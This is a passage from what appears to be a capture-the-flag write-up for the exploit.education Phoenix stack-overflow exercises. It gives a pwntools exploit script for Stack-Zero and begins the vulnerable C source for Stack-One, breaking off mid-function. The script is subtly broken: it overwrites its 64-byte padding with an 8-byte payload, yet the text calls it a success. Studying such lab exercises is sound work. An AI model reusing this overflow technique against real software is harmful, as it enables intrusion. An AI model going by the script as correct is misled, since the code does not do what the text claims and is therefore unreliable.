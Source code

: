 We can see that `buffer` is 64 bytes and immediately before that is `changeme`.
This means that if we feed the buffer 65 characters we can solve this challenge.

Final Exploit:
```python
from pwn import * # import pwn library

# attach process
p = process('./stack-zero') # vuln is the executable file name

# variables
BUF_LEN = 64 # length of buffer

# create payload
payload = b'A'*BUF_LEN # create padding of BUF_LEN bytes
payload = b'BBBBBBBB' # this can be whatever garbage bytes

# receive until bytes is met
p.recvuntil(b'Welcome to Stack-Zero, brought to you by https://exploit.education') # receive everything until this line

# send payload
p.sendline(payload) # send payload as one line

# to get a shell
p.interactive()
```

Great success!


![stackzerosuccess](../Images/PhoenixExploit/stackzerosuccess.jpg)

---
### Stack-One
Stack-One is almost identical to Stack-Zero. The catch, however, is that we have to alter the `changeme` to a specific variable. This forces us to calculate the exact number of bytes that are required to reach `changeme`.
Furthermore, we are obligated to provide a command line argument, rather than it prompting us for an input.

```c
#define BANNER "Welcome to Stack-One, brought to you by https://exploit.education"

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int changeme;
  } locals;

  printf("%s\n", BANNER);

  if (argc < 2) {
    errx(1, "specify an argument, to be copied into the \"buffer\"");
  }

  locals.changeme = 0;
  strcpy(locals.buffer, argv[1]);

  if (locals.changeme == 0x496c5962) {
    puts("Well done, you have successfully set changeme to the correct value");
  } else {
```